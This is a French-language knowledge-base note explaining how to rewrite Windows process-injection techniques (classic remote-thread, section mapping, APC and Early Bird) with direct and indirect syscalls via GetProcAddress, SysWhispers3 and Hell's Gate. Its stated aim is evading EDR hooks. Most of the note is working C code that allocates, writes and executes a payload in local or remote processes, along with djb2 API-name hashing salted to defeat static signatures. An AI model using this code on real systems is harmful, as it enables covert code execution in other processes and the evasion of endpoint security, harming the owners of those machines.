




# Réimplémentation des injections via syscalls

## Principe

Les techniques d'injection présentées dans les notes [[Injection de shellcode]], [[Injection par mapping]] et [[Injection APC et Early Bird]] reposent toutes, à un moment ou un autre, sur des fonctions WinAPI sensibles : `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread`, `MapViewOfFile`, `QueueUserAPC`, etc. Or ces fonctions ne sont que des enveloppes : en pratique, `kernel32.dll` délègue à `ntdll.dll`, qui contient les véritables points d'entrée des appels système.

L'idée directrice est donc de supprimer la couche WinAPI et d'appeler directement le syscall sous-jacent, en passant par les fonctions exportées `Nt*`/`Zw*` de `ntdll.dll`. On retrouve ainsi la même injection, mais avec une chaîne d'appels plus courte et, surtout, sans dépendre des fonctions que les EDR instrumentent en priorité. Le contexte théorique est détaillé dans [[Introduction aux syscalls]] et les méthodes de résolution dans [[SysWhispers et Hell's Gate]].

## Correspondance WinAPI vers syscall

Le remplacement se fait fonction par fonction, en conservant la même logique de manipulation mémoire.

| Technique | WinAPI remplacée | Syscall correspondant |
|---|---|---|
| Injection classique | `VirtualAlloc` / `VirtualAllocEx` | `NtAllocateVirtualMemory` |
| Injection classique | `VirtualProtect` / `VirtualProtectEx` | `NtProtectVirtualMemory` |
| Injection classique | `WriteProcessMemory` | `NtWriteVirtualMemory` |
| Injection classique | `CreateThread` / `CreateRemoteThreadEx` | `NtCreateThreadEx` |
| Injection par mapping | `CreateFileMapping` | `NtCreateSection` |
| Injection par mapping | `MapViewOfFile` | `NtMapViewOfSection` |
| Injection par mapping | `UnmapViewOfFile` | `NtUnmapViewOfSection` |
| Injection par mapping | `CloseHandle` | `NtClose` |
| Injection APC | `QueueUserAPC` | `NtQueueApcThread` |

Tous ces appels renvoient un `NTSTATUS` : `STATUS_SUCCESS` (0) en cas de succès, une valeur non nulle sinon. Les identifiants techniques restent en anglais dans le code.

## Pourquoi cette réécriture



Deux motivations distinctes se superposent :

- **Réduction de surface d'inspection** : les hooks EDR placés dans `ntdll.dll` observent les arguments passés aux fonctions `Nt*` (protection de page RWX, handle de processus ciblé, taille écrite). En appelant le syscall sans repasser par le stub instrumenté, on évite cette observation. Voir [[API hooking]] et [[Mécanismes de détection]].
- **Robustesse** : les appels directs survivent à l'unhooking, puisque l'on ne dépend plus du code de `ntdll` mais de sa propre implémentation, décrite dans [[Unhooking de NTDLL]].

À retenir toutefois : l'invocation via `GetProcAddress`/`GetModuleHandle` reste un simple appel indirect au stub de `ntdll`. Elle fonctionne, mais **ne contourne aucun hook userland**. Pour aller plus loin, il faut une résolution propre du numéro d'appel système (SSN) et un saut direct vers le noyau.

## Les syscalls nécessaires

### NtAllocateVirtualMemory

Équivalent de `VirtualAlloc`/`VirtualAllocEx`. Différence notable : `BaseAddress` et `RegionSize` sont passés **par référence** (opérateur `&`), et un nouveau paramètre `ZeroBits` apparaît (toujours à 0).

```c
NTSTATUS NtAllocateVirtualMemory(
  IN HANDLE           ProcessHandle,    // Processus cible
  IN OUT PVOID        *BaseAddress,     // Recoit l'adresse allouee
  IN ULONG_PTR        ZeroBits,         // Toujours 0
  IN OUT PSIZE_T      RegionSize,       // Taille, arrondie a la page
  IN ULONG            AllocationType,   // MEM_COMMIT | MEM_RESERVE
  IN ULONG            Protect           // Protection de page
);
```

`RegionSize` est IN OUT car la valeur est **arrondie au multiple de 4096 supérieur**. Une demande de 5000 octets devient 8192, et c'est cette valeur qui est renvoyée.

### NtProtectVirtualMemory

Équivalent de `VirtualProtect`/`VirtualProtectEx`. Comme pour l'allocation, `BaseAddress` et `NumberOfBytesToProtect` sont passés par référence, et la taille est arrondie à la page.

```c
NTSTATUS NtProtectVirtualMemory(
  IN HANDLE               ProcessHandle,
  IN OUT PVOID            *BaseAddress,
  IN OUT PULONG           NumberOfBytesToProtect,
  IN ULONG                NewAccessProtection,   // ex. PAGE_EXECUTE_READWRITE
  OUT PULONG              OldAccessProtection
);
```

### NtWriteVirtualMemory

Équivalent de `WriteProcessMemory`, avec exactement les mêmes paramètres.

```c
NTSTATUS NtWriteVirtualMemory(
  IN HANDLE               ProcessHandle,
  IN PVOID                BaseAddress,
  IN PVOID                Buffer,
  IN ULONG                NumberOfBytesToWrite,
  OUT PULONG              NumberOfBytesWritten
);
```

### NtCreateThreadEx

Équivalent de `CreateThread`, `CreateRemoteThread` et `CreateRemoteThreadEx`. Très flexible, mais dans le cadre d'une injection simple la majorité des paramètres reste à `NULL` : seul `ThreadHandle`, `ProcessHandle` et `StartRoutine` sont réellement utilisés.

```c
NTSTATUS NtCreateThreadEx(
    OUT PHANDLE             ThreadHandle,     // Recoit le handle du thread
    IN  ACCESS_MASK         DesiredAccess,    // THREAD_ALL_ACCESS (0x1FFFFF)
    IN  POBJECT_ATTRIBUTES  ObjectAttributes, // NULL
    IN  HANDLE              ProcessHandle,    // Processus cible
    IN  PVOID               StartRoutine,     // Adresse de depart (le payload)
    IN  PVOID               Argument,         // NULL
    IN  ULONG               CreateFlags,      // NULL
    IN  SIZE_T              ZeroBits,         // NULL
    IN  SIZE_T              StackSize,        // NULL
    IN  SIZE_T              MaximumStackSize, // NULL
    IN  PPS_ATTRIBUTE_LIST  AttributeList     // NULL
);
```

### Souche mapping : NtCreateSection et compagnie

```c
NTSTATUS NtCreateSection(
  OUT PHANDLE             SectionHandle,
  IN ACCESS_MASK          DesiredAccess,          // SECTION_ALL_ACCESS
  IN POBJECT_ATTRIBUTES   ObjectAttributes,       // NULL
  IN PLARGE_INTEGER       MaximumSize,            // LowPart = taille du payload
  IN ULONG                SectionPageProtection,  // PAGE_EXECUTE_READWRITE
  IN ULONG                AllocationAttributes,   // SEC_COMMIT
  IN HANDLE               FileHandle              // NULL (section anonyme)
);

NTSTATUS NtMapViewOfSection(
  IN HANDLE               SectionHandle,
  IN HANDLE               ProcessHandle,
  IN OUT PVOID            *BaseAddress,
  IN ULONG                ZeroBits,               // NULL
  IN SIZE_T               CommitSize,             // NULL
  IN OUT PLARGE_INTEGER   SectionOffset,          // NULL
  IN OUT PSIZE_T          ViewSize,               // arrondie a la page
  IN SECTION_INHERIT      InheritDisposition,     // ViewShare ou ViewUnmap
  IN ULONG                AllocationType,         // NULL
  IN ULONG                Protect
);

NTSTATUS NtUnmapViewOfSection(IN HANDLE ProcessHandle, IN PVOID BaseAddress);
NTSTATUS NtClose(IN HANDLE ObjectHandle);
```

Deux points méritent l'attention. `MaximumSize` pointe vers un `LARGE_INTEGER` dont seul `LowPart` est rempli (avec la taille du payload) ; `HighPart` reste à 0. Et `InheritDisposition` provient de l'énumération `SECTION_INHERIT` : `ViewShare` (1) propage la vue aux processus enfants, `ViewUnmap` (2) non. Dans une injection, on utilise `ViewUnmap` côté local lorsqu'aucun enfant n'est créé, et `ViewShare` pour la vue locale dont on veut propager le contenu à la vue distante.

```c
typedef union _LARGE_INTEGER {
  struct { DWORD LowPart; LONG HighPart; } DUMMYSTRUCTNAME;
  LONGLONG QuadPart;
} LARGE_INTEGER;

typedef enum _SECTION_INHERIT {
  ViewShare = 1,
  ViewUnmap = 2
} SECTION_INHERIT, * PSECTION_INHERIT;
```

### NtQueueApcThread

Équivalent de `QueueUserAPC`. Les trois derniers paramètres alimentent la routine APC et restent à `NULL` dans le cas d'un simple shellcode.

```c
NTSTATUS NtQueueApcThread(
  IN HANDLE               ThreadHandle,                 // Thread cible (alertable)
  IN PIO_APC_ROUTINE      ApcRoutine,                   // Adresse du payload
  IN PVOID                ApcRoutineContext OPTIONAL,   // NULL
  IN PIO_STATUS_BLOCK     ApcStatusBlock OPTIONAL,      // NULL
  IN ULONG                ApcReserved OPTIONAL          // NULL
);
```

## Trois façons d'invoquer un syscall


| Méthode | Résolution | Bénéfice principal | Limite |
|---|---|---|---|
| `GetProcAddress` + `GetModuleHandle` | Recherche du nom exporté dans la EAT de `ntdll` | Mise en place immédiate, pas d'assembleur | N'échappe pas aux hooks userland |
| SysWhispers3 | Fichiers `.h`/`.c`/`.asm` générés hors ligne | Appel direct, invocation indirecte possible (`jumper_randomized`) | Nécessite MASM, empreinte statique |
| Hell's Gate | Lecture du stub `Nt*` en mémoire pour extraire le SSN | Aucun import `Nt*` dans l'IAT, dynamique | Plus de code, dépend d'un stub sain |

### Variante 1 : GetProcAddress et GetModuleHandle

On stocke les adresses dans une structure dédiée, puis on les appelle comme n'importe quel pointeur de fonction.

```c
typedef struct _Syscall {
    fnNtAllocateVirtualMemory pNtAllocateVirtualMemory;
    fnNtProtectVirtualMemory  pNtProtectVirtualMemory;
    fnNtWriteVirtualMemory    pNtWriteVirtualMemory;
    fnNtCreateThreadEx        pNtCreateThreadEx;
} Syscall, *PSyscall;

BOOL InitializeSyscallStruct (OUT PSyscall St) {
    HMODULE hNtdll = GetModuleHandle(L"NTDLL.DLL");
    if (!hNtdll)
        return FALSE;

    St->pNtAllocateVirtualMemory = (fnNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    St->pNtProtectVirtualMemory  = (fnNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
    St->pNtWriteVirtualMemory    = (fnNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    St->pNtCreateThreadEx        = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

    if (St->pNtAllocateVirtualMemory == NULL || St->pNtProtectVirtualMemory == NULL ||
        St->pNtWriteVirtualMemory == NULL || St->pNtCreateThreadEx == NULL)
        return FALSE;
    return TRUE;
}
```

Comme la structure est construite avec les noms en clair, cette approche expose également des chaînes détectables : le [[Hachage de chaînes]] permet de retirer les littéraux `"NtAllocateVirtualMemory"` du binaire.

### Variante 2 : SysWhispers3

SysWhispers3 génère les prototypes, les tables de SSN et un fichier assembleur pour les syscalls demandés. Une seule commande produit l'ensemble du socle.

```bash
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtAllocateVirtualMemory,NtProtectVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx -o SysWhispers -v
```

Trois fichiers sont créés : `SysWhispers.h`, `SysWhispers.c` et `SysWhispers-asm.x64.asm`. L'intégration dans Visual Studio se fait en quatre temps : copier les fichiers dans le projet et les ajouter comme éléments existants, activer MASM, puis faire compiler le fichier `.asm` par le **Microsoft Macro Assembler**. Une fois cela fait, le code d'injection ne diffère plus de la variante précédente : `NtAllocateVirtualMemory(...)` s'appelle exactement comme une fonction classique, la magie étant contenue dans les fichiers générés.

### Variante 3 : Hell's Gate

Hell's Gate ne réutilise aucun code généré : il lit à l'exécution le stub de chaque `Nt*` dans `ntdll`, en extrait le numéro d'appel système (SSN), puis exécute sa propre séquence `mov r10, rcx` / `mov eax, SSN` / `syscall`. L'appel se fait en deux temps, via la macro `HellsGate` (charge le SSN) puis `HellDescent` (exécute avec les arguments).

```c
HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
STATUS = HellDescent(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
```

La table de résolution décrit les syscalls utilisés :

```c
typedef struct _VX_TABLE {
    VX_TABLE_ENTRY NtAllocateVirtualMemory;
    VX_TABLE_ENTRY NtWriteVirtualMemory;
    VX_TABLE_ENTRY NtProtectVirtualMemory;
    VX_TABLE_ENTRY NtCreateThreadEx;
} VX_TABLE, * PVX_TABLE;
```

Chaque entrée est retrouvée par un **hachage djb2** des noms de fonctions, ce qui évite d'inscrire `"NtCreateThreadEx"` en clair. Le sel est changé à chaque projet pour que les empreintes statiques diffèrent.

```c
DWORD64 djb2(PBYTE str) {
    DWORD64 dwHash = 0x77347734DEADBEEF; // Ancienne valeur : 0x7734773477347734
    INT c;
    while (c = *str++)
        dwHash = ((dwHash << 0x5) + dwHash) + c;
    return dwHash;
}
```

Exemples de valeurs générées pour l'injection classique :

```c
#define NtAllocateVirtualMemory_djb2  0x7B2D1D431C81F5F6
#define NtWriteVirtualMemory_djb2     0x54AEE238645CCA7C
#define NtProtectVirtualMemory_djb2   0xA0DCC2851566E832
#define NtCreateThreadEx_djb2         0x2786FB7E75145F1A
```

La table est ensuite initialisée en parcourant la EAT de `ntdll` (obtenue via le PEB et `InMemoryOrderModuleList`, puis `GetImageExportDirectory`), chaque entrée recevant son hash avant l'appel à `GetVxTableEntry`.

```c
VX_TABLE Table = { 0 };

Table.NtAllocateVirtualMemory.dwHash  = NtAllocateVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtAllocateVirtualMemory))
    return 0x1;

Table.NtWriteVirtualMemory.dwHash    = NtWriteVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtWriteVirtualMemory))
    return 0x1;
```

## Réimplémentation de l'injection classique

La séquence est identique à celle de [[Injection de shellcode]], seul le nom des appels change.



```c
BOOL ClassicInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

    Syscall   St                     = { 0 };
    NTSTATUS  STATUS                 = 0x00;
    PVOID     pAddress               = NULL;
    ULONG     uOldProtection         = NULL;
    SIZE_T    sSize                  = sPayloadSize,
              sNumberOfBytesWritten  = NULL;
    HANDLE    hThread                = NULL;

    if (!InitializeSyscallStruct(&St))
        return FALSE;

    // 1. Allocation
    if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0)
        return FALSE;

    // 2. Ecriture du payload
    if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0
        || sNumberOfBytesWritten != sPayloadSize)
        return FALSE;

    // 3. Passage en RWX
    if ((STATUS = St.pNtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0)
        return FALSE;

    // 4. Execution
    if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0)
        return FALSE;

    return TRUE;
}
```

### Le piège de l'arrondi de taille

`NtAllocateVirtualMemory` écrase `RegionSize` avec la valeur réellement allouée, arrondie à 4096. Si l'on réutilise la même variable pour l'écriture, on écrit plus d'octets que prévu : pour un payload de 272 octets, la taille devient 4096, et l'on tente d'écrire 4096 octets alors que le buffer n'en contient que 272.

```c
// sPayloadSize vaut 272 avant l'allocation...
St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sPayloadSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

// ...et 4096 apres : ecrire sPayloadSize copierait 4096 octets
St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten);
```

La parade consiste à utiliser **deux variables distinctes** : `sSize` (arrondie, consommée par l'allocation) et `sPayloadSize` (taille réelle, consommée par l'écriture), comme dans le code ci-dessus.

### Local ou distant

La même fonction sert aux deux cas : il suffit de lui passer le handle du processus cible. Le handle pseudo-local `(HANDLE)-1` désigne le processus courant. Un commutateur de compilation choisit la cible.

```c
#define LOCAL_INJECTION

#ifndef LOCAL_INJECTION
#define REMOTE_INJECTION
#define PROCESS_ID  18784
#endif // !LOCAL_INJECTION
```

Côté injection distante, le handle est obtenu par `OpenProcess(PROCESS_ALL_ACCESS, FALSE, PROCESS_ID)` avant l'appel. Commenter `#define LOCAL_INJECTION` bascule vers la cible distante de PID `PROCESS_ID`.

## Réimplémentation de l'injection par mapping

Cette fois, on ne réserve pas de mémoire par `NtAllocateVirtualMemory` : on crée une **section** en mémoire, on mappe une vue dans le processus local pour y écrire le payload, puis une seconde vue dans le processus cible. Le mapping est la version syscall de [[Injection par mapping]].



### Vue locale

```c
BOOL LocalMappingInjectionViaSyscalls(IN PVOID pPayload, IN SIZE_T sPayloadSize) {

    LARGE_INTEGER MaximumSize = { .HighPart = 0, .LowPart = sPayloadSize };
    HANDLE  hSection = NULL, hThread = NULL;
    PVOID   pAddress = NULL;
    SIZE_T  sViewSize = NULL;
    NTSTATUS STATUS = NULL;
    Syscall St = { 0 };

    if (!InitializeSyscallStruct(&St))
        return FALSE;

    if ((STATUS = St.pNtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize,
                                      PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0)
        return FALSE;

    if ((STATUS = St.pNtMapViewOfSection(hSection, (HANDLE)-1, &pAddress, NULL, NULL, NULL,
                                         &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0)
        return FALSE;

    memcpy(pAddress, pPayload, sPayloadSize);

    if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, pAddress,
                                       NULL, NULL, NULL, NULL, NULL, NULL)) != 0)
        return FALSE;

    // Nettoyage
    St.pNtUnmapViewOfSection((HANDLE)-1, pAddress);
    St.pNtClose(hSection);
    return TRUE;
}
```

### Vue distante

Côté distant, la vue locale est cartographiée en `PAGE_READWRITE` pour recevoir le payload, puis une vue de la même section est cartographiée dans le processus cible en `PAGE_EXECUTE_READWRITE`. C'est le partage de la section qui transfère implicitement les octets écrits localement.

```c
// Vue locale : zone de travail en lecture/ecriture
St.pNtMapViewOfSection(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL,
                       &sViewSize, ViewUnmap, NULL, PAGE_READWRITE);
memcpy(pLocalAddress, pPayload, sPayloadSize);

// Vue distante : meme section, cette fois executable
St.pNtMapViewOfSection(hSection, hProcess, &pRemoteAddress, NULL, NULL, NULL,
                       &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE);

St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pRemoteAddress,
                     NULL, NULL, NULL, NULL, NULL, NULL);

// Nettoyage : on retire la vue locale puis on ferme la section
St.pNtUnmapViewOfSection((HANDLE)-1, pLocalAddress);
St.pNtClose(hSection);
```

### Précautions

`NtUnmapViewOfSection` ne doit être appelé qu'**une fois le payload terminé**. Démapper la vue tandis que le shellcode s'exécute casse ce dernier ou fait planter le processus. Pour attendre proprement, on peut utiliser `NtWaitForSingleObject` sur le thread créé, puis démapper. Comme `NtAllocateVirtualMemory`, `NtMapViewOfSection` arrondit `ViewSize` à la page : le nettoyage doit viser l'adresse de base telle que renvoyée, pas la taille demandée.

## Réimplémentation de l'APC injection

Le cœur de la technique est déjà décrit dans [[Injection APC et Early Bird]]. Seul `QueueUserAPC` change de nom pour `NtQueueApcThread` ; l'allocation, l'écriture et le passage en RWX réutilisent les syscalls de l'injection classique.



### Le thread alertable

L'APC ne s'exécute que lorsque le thread se trouve dans un état **alertable**. Le thread sacrifié attend donc sur un objet noyau avec le drapeau `MWMO_ALERTABLE`.

```c
VOID AlterableFunction() {

    HANDLE hEvent = CreateEvent(NULL, NULL, NULL, NULL);

    MsgWaitForMultipleObjectsEx(
        1,
        &hEvent,
        INFINITE,
        QS_HOTKEY,
        MWMO_ALERTABLE
    );
}
```

### File d'attente APC

```c
BOOL ApcInjectionViaSyscalls(IN HANDLE hProcess, IN HANDLE hThread, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

    Syscall   St                     = { 0 };
    NTSTATUS  STATUS                 = NULL;
    PVOID     pAddress               = NULL;
    ULONG     uOldProtection         = NULL;
    SIZE_T    sSize                  = sPayloadSize,
              sNumberOfBytesWritten  = NULL;

    if (!InitializeSyscallStruct(&St))
        return FALSE;

    if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0)
        return FALSE;

    if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0
        || sNumberOfBytesWritten != sPayloadSize)
        return FALSE;

    if ((STATUS = St.pNtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0)
        return FALSE;

    // L'APC est empilee sur le thread ; elle s'executera des que celui-ci sera alertable
    if ((STATUS = St.pNtQueueApcThread(hThread, pAddress, NULL, NULL, NULL)) != 0)
        return FALSE;

    return TRUE;
}
```

### Injection distante

La fonction fonctionne aussi à distance, mais elle exige un thread alertable dans le processus cible. La méthode appropriée est celle de *Early Bird* : créer le processus cible **suspendu**, enfiler l'APC avant que le chargeur n'ait terminé, puis reprendre le thread principal — détaillée dans [[Injection APC et Early Bird]] et rapprochée du contournement complet via [[NtCreateUserProcess]].

## Points de vigilance

| Sujet | Point cle |
|---|---|
| Taille de région | `NtAllocateVirtualMemory` et `NtMapViewOfSection` arrondissent la taille à 4096 ; séparer les variables d'allocation et d'écriture |
| Passages par référence | `BaseAddress`, `RegionSize`, `NumberOfBytesToProtect`, `ViewSize` attendent des adresses, pas des valeurs |
| Valeurs de retour | Vérifier `NTSTATUS == 0`, et pour l'écriture que `sNumberOfBytesWritten == sPayloadSize` |
| Nettoyage | `NtUnmapViewOfSection` et `NtClose` après exécution, jamais pendant |
| Thread alertable | L'APC reste en attente tant que le thread n'atteint pas un point alertable |
| Local distant | Le handle `(HANDLE)-1` cible le processus courant ; sinon `OpenProcess` reste nécessaire |

Enfin, se souvenir que `GetProcAddress`/`GetModuleHandle` ne procure qu'un confort de mise au point : la protection réelle vient de la résolution du SSN et du saut direct, terrain couvert par [[SysWhispers et Hell's Gate]], [[Introduction aux syscalls]] et [[Unhooking de NTDLL]].
